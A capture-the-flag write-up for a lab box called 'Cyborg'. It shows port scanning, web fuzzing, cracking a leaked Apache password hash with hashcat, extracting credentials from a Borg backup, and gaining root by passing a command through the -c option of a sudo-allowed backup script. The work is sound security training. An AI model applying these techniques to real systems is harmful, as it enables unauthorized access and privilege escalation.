 # Cyborg

## Enumeration

### I started by scan the ports to answer to the first question

I used this nmap command : nmap -A -p- -T4 _IP_
  - _-A or -sV : Enables version detection, as discussed above_
  - _-p- : to scan every 65535 port_
  - _-T<0-5>: Set timing template (higher is faster)_

```bash
└─$ nmap -A -p- -T4 10.10.252.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 13:02 BST
Nmap scan report for 10.10.252.51
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.48 seconds
```
### I've found that 2 ports are opened 80 (http) and 22 (ssh),  with this I can answer the question 2 and 3

### After I used feroxbuster which is a very powerfull web fuzzer

```bash
└─$ feroxbuster --url http://10.10.252.51 --wordlist  /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.252.51
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://10.10.252.51/icons/ubuntu-logo.png
301      GET        9l       28w      312c http://10.10.252.51/admin => http://10.10.252.51/admin/
200      GET      375l      968w    11321c http://10.10.252.51/
301      GET        9l       28w      310c http://10.10.252.51/etc => http://10.10.252.51/etc/
200      GET        6l       27w      258c http://10.10.252.51/etc/squid/squid.conf
[#>------------------] - 7m    193242/2370492 76m     found:5       errors:23897  
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_252_51-1720095021.state ...
[#>------------------] - 7m    193301/2370492 76m     found:5       errors:23923  
[#>------------------] - 7m     99544/1185240 241/s   http://10.10.252.51/ 
[#>------------------] - 7m     93730/1185240 227/s   http://10.10.252.51/admin/ 
[####################] - 2s   1185240/1185240 570925/s http://10.10.252.51/etc/ => Directory listing
[####################] - 2s   1185240/1185240 741702/s http://10.10.252.51/etc/squid/ => Directory listing
```
### I've look around /etc/squid and I've found the passwd file where the music_archive's password hash is written

## Exploitation

### music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

```bash
└─$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:*********           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Thu Jul  4 13:34:59 2024 (1 sec)
Time.Estimated...: Thu Jul  4 13:35:00 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    38096 H/s (6.59ms) @ Accel:128 Loops:250 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 39936/14344385 (0.28%)
Rejected.........: 0/39936 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device Generator
Candidates.#1....: treetree -> prospect
Hardware.Mon.#1..: Temp: 84c Util: 97%

Started: Thu Jul  4 13:34:49 2024
Stopped: Thu Jul  4 13:35:01 2024
```
### On the /admin page, I could download archive.tar on the "Archive" tab and I've untar it

### In the README I've found the Borg documentation link : https://borgbackup.readthedocs.io/en/stable/, I've found a lot of command very usefull.

```bash
└─$ borg list home/field/dev/final_archive 

Enter passphrase for key /home/ciikorrr/CTF/Cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 14:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

└─$ borg extract home/field/dev/final_archive::music_archive

└─$ cd home/alex/Documents

└─$ cat note.txt   
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:**********
```
### After have found the alex credentials, I'm connected on his ssh session

```ssh alex@IP```

## User FLAG

```bash
alex@ubuntu:~$ cat user.txt 
flag{**********************}
```

## Privilege Escalation

### I started with a basic sudo -l to enumerate all commands authorised by alex as another user, I've found that alex can execute a script as any user (so in root too)

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

### By luck, the backup.sh file is readable so I analyzed it
```bash
alex@ubuntu:~$ cat /etc/mp3backups/backup.sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
### 2 things are interesting in the script

```bash
while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done
```
```bash
cmd=$($command)
echo $cmd
```
### If I specify a -c option to the script, it will run the command that I want

## Root FLAG

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"

flag{***************************}
```



